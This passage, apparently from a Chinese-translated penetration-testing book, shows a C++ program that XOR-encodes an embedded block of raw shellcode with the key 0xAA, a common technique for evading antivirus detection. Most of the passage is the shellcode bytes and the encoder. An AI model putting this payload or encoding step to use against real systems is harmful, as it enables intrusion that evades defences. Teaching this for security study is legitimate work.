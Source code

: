 由于我们已经准备好外壳代码，我们将用 C 构建一个编码器，它将使用我们选择的字节（即`0xAA`）对外壳代码进行异或编码，如下所示：

![](img/ce358121-f247-4bc6-ab51-9f6077d8e11a.png)

让我们看看如何用 C 创建编码器程序，如下所示：

```
#include <Windows.h>
#include "stdafx.h"
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char buf[] =
"\xbe\x95\xb2\x95\xfe\xdd\xc4\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x56\x83\xc2\x04\x31\x72\x0f\x03\x72\x9a\x50\x60\x02\x4c\x16"
"\x8b\xfb\x8c\x77\x05\x1e\xbd\xb7\x71\x6a\xed\x07\xf1\x3e\x01"
"\xe3\x57\xab\x92\x81\x7f\xdc\x13\x2f\xa6\xd3\xa4\x1c\x9a\x72"
"\x26\x5f\xcf\x54\x17\x90\x02\x94\x50\xcd\xef\xc4\x09\x99\x42"
"\xf9\x3e\xd7\x5e\x72\x0c\xf9\xe6\x67\xc4\xf8\xc7\x39\x5f\xa3"
"\xc7\xb8\x8c\xdf\x41\xa3\xd1\xda\x18\x58\x21\x90\x9a\x88\x78"
"\x59\x30\xf5\xb5\xa8\x48\x31\x71\x53\x3f\x4b\x82\xee\x38\x88"
"\xf9\x34\xcc\x0b\x59\xbe\x76\xf0\x58\x13\xe0\x73\x56\xd8\x66"
"\xdb\x7a\xdf\xab\x57\x86\x54\x4a\xb8\x0f\x2e\x69\x1c\x54\xf4"
"\x10\x05\x30\x5b\x2c\x55\x9b\x04\x88\x1d\x31\x50\xa1\x7f\x5d"
"\x95\x88\x7f\x9d\xb1\x9b\x0c\xaf\x1e\x30\x9b\x83\xd7\x9e\x5c"
"\x92\xf0\x20\xb2\x1c\x90\xde\x33\x5c\xb8\x24\x67\x0c\xd2\x8d"
"\x08\xc7\x22\x31\xdd\x7d\x29\xa5\x1e\x29\x27\x50\xf7\x2b\x38"
"\x8b\x5b\xa2\xde\xfb\x33\xe4\x4e\xbc\xe3\x44\x3f\x54\xee\x4b"
"\x60\x44\x11\x86\x09\xef\xfe\x7e\x61\x98\x67\xdb\xf9\x39\x67"
"\xf6\x87\x7a\xe3\xf2\x78\x34\x04\x77\x6b\x21\x73\x77\x73\xb2"
"\x16\x77\x19\xb6\xb0\x20\xb5\xb4\xe5\x06\x1a\x46\xc0\x15\x5d"
"\xb8\x95\x2f\x15\x8f\x03\x0f\x41\xf0\xc3\x8f\x91\xa6\x89\x8f"
"\xf9\x1e\xea\xdc\x1c\x61\x27\x71\x8d\xf4\xc8\x23\x61\x5e\xa1"
"\xc9\x5c\xa8\x6e\x32\x8b\xaa\x69\xcc\x49\x85\xd1\xa4\xb1\x95"
"\xe1\x34\xd8\x15\xb2\x5c\x17\x39\x3d\xac\xd8\x90\x16\xa4\x53"
"\x75\xd4\x55\x63\x5c\xb8\xcb\x64\x53\x61\xfc\x1f\x1c\x96\xfd"
"\xdf\x34\xf3\xfe\xdf\x38\x05\xc3\x09\x01\x73\x02\x8a\x36\x8c"
"\x31\xaf\x1f\x07\x39\xe3\x60\x02";

int main()
{
 for (unsigned int i = 0; i < sizeof buf; ++i)
 {
  if (i % 15 == 0)
  {
   std::cout << "\"\n\"";
  }
  unsigned char val = (unsigned int)buf[i] ^ 0xAA;
  std::cout << "\\x" << std::hex << (unsigned int)val;
 }
 _getch();
 return 0;
}
```
